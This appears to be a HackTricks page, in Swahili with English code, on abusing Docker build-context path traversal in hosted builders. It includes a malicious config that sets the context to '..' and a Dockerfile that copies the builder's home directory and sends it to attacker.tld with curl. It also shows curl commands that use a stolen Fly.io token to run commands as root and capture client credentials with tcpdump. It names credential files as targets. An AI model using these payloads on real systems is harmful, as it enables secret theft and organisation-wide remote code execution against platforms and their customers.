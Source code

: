 # Kutumia vibaya Docker Build Context katika Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

Ikiwa jukwaa la CI/CD au hosted builder linamruhusu mchangiaji kubainisha njia ya Docker build context na njia ya Dockerfile, mara nyingi unaweza kuweka context kwa saraka ya mzazi (mfano, "..") na kufanya faili za mwenyeji kuwa sehemu ya build context. Kisha, Dockerfile iliyodhibitiwa na mshambuliaji inaweza kutumia COPY na exfiltrate siri zilizopatikana katika nyumbani kwa mtumiaji wa builder (kwa mfano, ~/.docker/config.json). Tokeni za registry zilizodukuliwa pia zinaweza kufanya kazi dhidi ya provider’s control-plane APIs, zikiruhusu RCE ya ngazi ya shirika.

## Attack surface

Huduma nyingi za hosted builder/registry hufanya takriban yafuatayo wakati wa kujenga images zilizowasilishwa na watumiaji:
- Soma repo-level config inayojumuisha:
- build context path (inayotumwa kwa Docker daemon)
- Dockerfile path relative to that context
- Nakili saraka ya build context iliyotajwa na Dockerfile kwenda Docker daemon
- Jenga image na kuiendesha kama hosted service

Ikiwa jukwaa halifanyi canonicalize na kuzuiya build context, mtumiaji anaweza kuiweka kwa eneo nje ya repository (path traversal), na kusababisha faili yoyote ya mwenyeji inayosomwa na build user kuwa sehemu ya build context na kupatikana kwa ajili ya COPY katika Dockerfile.

Practical constraints commonly observed:
- Dockerfile lazima iwe ndani ya chosen context path na njia yake lazima ijulikane mapema.
- build user lazima awe na haki za kusoma kwenye faili zilizojumuishwa katika context; special device files zinaweza kuvuruga nakili.

## PoC: Path traversal via Docker build context

Example malicious server config declaring a Dockerfile within the parent directory context:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
- Kutumia ".." mara nyingi hurejea kwenye home ya mtumiaji builder (mf., /home/builder), ambayo kwa kawaida ina faili nyeti.
- Weka Dockerfile yako chini ya jina la directory la repo (mf., repo "test" → test/Dockerfile) ili ibaki ndani ya muktadha wa mzazi uliopanuliwa.

## PoC: Dockerfile ya kuingiza na ku-exfiltrate muktadha wa host
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Malengo yanayopatikana mara kwa mara kutoka $HOME:
- ~/.docker/config.json (registry auths/tokens)
- Caches na configs nyingine za cloud/CLI (mfano, ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Tip: Hata ukiwa na .dockerignore katika repository, uchaguzi dhaifu wa platform-side context bado unasimamia ni nini kinachotumwa kwa daemon. Ikiwa platform inakopa path iliyochaguliwa kwa daemon kabla ya kutathmini .dockerignore ya repo yako, faili za host bado zinaweza kufichuliwa.

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

Baadhi ya platforms hutolewa bearer token moja inayoweza kutumika kwa container registry na control-plane API. Ikiwa utaexfiltrate registry token, jaribu kuitumia dhidi ya provider API.

Example API calls against Fly.io Machines API using the stolen token from ~/.docker/config.json:

Orodhesha apps katika org:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Endesha amri kama root ndani ya mashine yoyote ya app:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Matokeo: remote code execution kwa shirika zima kwenye hosted apps zote ambapo token ina ruhusa za kutosha.

## Uibwa wa siri kutoka kwa hosted services zilizoathiriwa

Kwa exec/RCE kwenye hosted servers, unaweza kuvuna siri zilizotolewa na mteja (API keys, tokens) au kuanzisha prompt-injection attacks. Mfano: weka tcpdump na kunasa trafiki ya HTTP kwenye port 8080 ili kutoa kredenshiali zinazoingia.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Maombi yaliyorekodiwa mara nyingi yana client credentials katika headers, bodies, au query params.

## Marejeo

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
